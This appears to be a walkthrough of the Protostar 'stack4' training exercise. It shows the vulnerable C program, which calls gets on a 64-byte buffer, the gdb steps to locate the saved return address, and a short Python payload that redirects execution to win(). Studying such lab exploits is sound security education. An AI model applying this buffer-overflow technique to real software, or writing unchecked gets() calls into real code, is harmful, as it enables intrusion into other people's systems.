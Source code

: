 ## Protostar exercises - [stack4](https://exploit-exercises.lains.space/protostar/stack4/)

#### About
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

A variety of introductory papers into buffer overflows may help.
gdb lets you do “run < input”
EIP is not directly after the end of buffer, compiler padding can also increase the size.

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### Procedure:

after main is executed, the stack contains the address which called main. At the last statement of main (ret) this address is popped off stack and stack frame goes back to previous state and ESP points to the return pointer. 

We can change the return pointer to point to win() function, this executing it after ret

##### Vulnerability:

`gets` is vulnerable function.


##### Disassembly:


Lets start by running ./stack4 with a large input (AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ) since we dont know where the return pointer is

create breakpoint at ret `break *0x0804841e` and run


We can see that $esp (0xbffff75c) is loaded with 0x56565656 and the next step after ret tried to execute 0x56565656 and failed.

So, if we can overwrite 0xbffff75c with the address of win(), we are done

address of win can be found using objdump or in gdb
```
(gdb) x win
0x80483f4 <win>:        0x83e58955
```

Lets modify our python program to add this address to string after 0x55 (U)
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"
padding += "\xf4\x83\x04\x08" #address 0x80483f4
print padding
```


Now we can see that $esp now has 0x080483f4 and win() is executed



